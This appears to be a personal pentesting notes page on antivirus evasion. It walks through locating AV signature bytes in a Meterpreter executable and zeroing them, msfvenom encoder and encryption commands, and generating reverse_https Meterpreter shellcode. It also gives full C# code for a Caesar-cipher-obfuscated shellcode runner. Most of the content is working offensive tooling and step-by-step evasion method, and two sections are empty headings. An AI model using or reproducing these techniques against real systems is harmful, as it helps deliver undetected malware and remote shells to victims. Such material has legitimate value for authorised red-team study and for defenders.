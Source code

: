 # AV software
* [ClamAV](https://www.clamav.net/)
* [Avira](https://www.avira.com/)
* TrendMicro
* McAfee
* Kaspersky
* ...

# VirusTotal alternative
[antiscan.me](https://antiscan.me)

# High level concepts
* Locating Signatures in Files and switching 'triggering' bits to 0 (and hope executable still works)
* Encoders and Encryptors. Likely detected since decoding/decrypting routines are still static and therefore detectable by signatures
* Using a custom built shellcode runner in C# or JS. Additionally encrypt the shellcode with a simple ceasars cipher to avoid detection
* Use sleep timers to detect AV's and simply return if delay is not as set
* Use non emulated API's to detect AV's and simmply return if API not available (e.g. VirtualAllocExNuma)

# Locating Signatures in Files
<details>
  <summary>Expand</summary>
Free AV products: ClamAV, Avira

We must determine the exact bytes that are triggering detection. For this we cut the binary into smaller pieces and scan them.
For this we use a PowerShell function [Find-AVSignature](http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html):

```powershell
function Find-AVSignature {
<#
.SYNOPSIS

    Find-AVSignature

    Locates single Byte AV signatures utilizing the same method as DSplit from "class101" on heapoverflow.com

    Authors: Chris Campbell (@obscuresec) & Matt Graeber (@mattifestation)
    License: BSD 3-Clause

.DESCRIPTION

    A script to locate tiny AV signatures.

.PARAMETER Startbyte

    Specifies the first byte to begin splitting on.

.PARAMETER Endbyte

    Specifies the last byte to split on.

.PARAMETER Interval

    Specifies the interval size to split with.

.PARAMETER Path

    Specifies the path to the binary you want tested.

.PARAMETER OutPath

    Optionally specifies the directory to write the binaries to.
    
.PARAMETER Force

    Forces the script to continue without confirmation.    

.EXAMPLE

    PS C:\> Find-AVSignature -Startbyte 0 -Endbyte max -Interval 10000 -Path c:\test\exempt\nc.exe 
    PS C:\> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run2 -Verbose
    PS C:\> Find-AVSignature -StartByte 16000 -EndByte 17000 -Interval 100 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run3 -Verbose
    PS C:\> Find-AVSignature -StartByte 16800 -EndByte 16900 -Interval 10 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run4 -Verbose
    PS C:\> Find-AVSignature -StartByte 16890 -EndByte 16900 -Interval 1 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run5 -Verbose

.NOTES

    Several of the versions of "DSplit.exe" available on the internet contain malware.

.LINK

    http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html
    https://github.com/mattifestation/PowerSploit
    http://www.exploit-monday.com/
    http://heapoverflow.com/f0rums/project.php?issueid=34&filter=changes&page=2
#>

[CmdletBinding()] Param(
        [Parameter(Mandatory = $True)] [Int32] $StartByte,
        [Parameter(Mandatory = $True)] [String] $EndByte,
        [Parameter(Mandatory = $True)] [Int32] $Interval,
        [Parameter(Mandatory = $False)] [String] $Path = ($pwd.path),
        [Parameter(Mandatory = $False)] [String] $OutPath = ($pwd),
        [Switch] $Force = $False
    )

    #test variables
    if (!(Test-Path $Path)) {Throw "File path not found"}
    $Response = $True
    if (!(Test-Path $OutPath)) {}
        if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("The `"$OutPath`" does not exist! Do you want to create the directory?",""))){new-item ($OutPath)-type directory}
    if (!$Response) {Throw "Output path not found"}
    if (!(Get-ChildItem $Path).Exists) {Throw "File not found"}
    [Int32] $FileSize = (Get-ChildItem $Path).Length
    if ($StartByte -gt ($FileSize - 1) -or $StartByte -lt 0) {Throw "StartByte range must be between 0 and $Filesize"}
    [Int32] $MaximumByte = (($FileSize) - 1)
    if ($EndByte -ceq "max") {$EndByte = $MaximumByte}
    if ($EndByte -gt $FileSize -or $EndByte -lt 0) {Throw "EndByte range must be between 0 and $Filesize"}

    #read in byte array
    [Byte[]] $FileByteArray = [System.IO.File]::ReadAllBytes($Path)

    #find the filename for the output name
    [String] $FileName = (Split-Path $Path -leaf).Split('.')[0]

    #Calculate the number of binaries
    [Int32] $ResultNumber = [Math]::Floor(($EndByte - $StartByte) / $Interval)
    if (((($EndByte - $StartByte) % $Interval)) -gt 0) {$ResultNumber = ($ResultNumber + 1)}
    
    #Prompt user to verify parameters to avoid writing binaries to the wrong directory
    $Response = $True
    if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("This script will result in $ResultNumber binaries being written to `"$OutPath`"!",
             "Do you want to continue?"))){}
    if (!$Response) {Return}
    
    Write-Verbose "This script will now write $ResultNumber binaries to `"$OutPath`"." 
    [Int32] $Number = [Math]::Floor($Endbyte/$Interval)
        
        #write out the calculated number of binaries
        [Int32] $i = 0
        for ($i -eq 0; $i -lt $ResultNumber; $i++)
        {
            [Int32] $SplitByte = (($StartByte) + (($Interval) * ($i)))
            Write-Verbose "Byte 0 -> $($SplitByte)"
            [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($SplitByte).bin"), $FileByteArray[0..($SplitByte)])
        }
        
        #Write out the final binary
        [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($EndByte).bin"), $FileByteArray[0..($EndByte)])
        Write-Verbose "Byte 0 -> $($EndByte)"
        Write-Verbose "Files written to disk. Flushing memory."
        
        #During testing using large binaries, memory usage was excessive so lets fix that
        [System.GC]::Collect()
        Write-Verbose "Completed!"
}

```


First import it:

```powershell
Import-Module .\Find-AVSignature.ps1

```

The Interval parameter is used to specify the size of each individual segment of the file. This value is dependent on the size of the executable.
We will set each segment to 10000 bytes.

```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```

Next run AV Scan against created folder avtest1
Let's assume the segment from 0 to 10000 is ok and the following are flagged as malicious.
Next adjust start and end bytes as well as the interval (getting smaller)

```powershell
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
```
Repeat the step until you find the exact byte that triggers AV.
Set this byte to 0 with the following scripts:


PowerShell:
```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```
Python (not tested, generated with ChatGPT):
```python
source_path = r"C:\Tools\met.exe"
destination_path = r"C:\Tools\met_mod.exe"

# Read all bytes from the source file
with open(source_path, "rb") as f:
    bytes = bytearray(f.read())

# Modify the byte at index 18867 to 0
bytes[18867] = 0

# Write the modified bytes to the destination file
with open(destination_path, "wb") as f:
    f.write(bytes)

print("File modification complete.")

```
Repeat the last step to verify that AV does not detect the segment anymore.
Afterwards, take the modified binary and repeat all over to check if there are other bytes that trigger AV.
After finding all bytes to evade detection, the file is still detected by AV. We can evade this by changing the last byte at offset 73801.
Changing it to 0x00 does not produce a clean scan, but changing it to 0xFF does. 

```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

</details>


# Metasploit Encoders and Encryptors

```
metasploit --list encoders
sudo msfvenomm -p ... -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenomm -p ... -e x86/shikata_ga_nai -x notepad.exe -f exe -o met.exe

metasploit --list encrypt
sudo msfvenom -p ... --encrypt aes256 --encrypt-key asdfasdfasdf -f exe -o met.exe
```

Likely still detected since the decoding and decrypting routines are static and known by vendors.

# Custom built encrypted C# shellcode runner 

See also 09_Windows.md for basic C# shellcode runner

<details>
  <summary>Expand</summary>

We will use a simple caesar cipher with a substitution key of 2 for 'encryption'.
Create helper application (Console App (.Net Framework)) that can encrypt the shellcode.

Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

Helper Application Code:
```csharp
using System;
using System.Collections.Generic;
using System.Linqt;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[760] { 0xfc, 0x48, 0x83, ...}
            byte[] encoded = new byte[buf.Length];

            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
						
						Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```



Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
                  uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
            UInt32 dwMilliseconds);
        
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {0xfc,0x48,0x83,0xe4...}
						
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
</details>

# Sleep Timers

# Non-emulated APIs
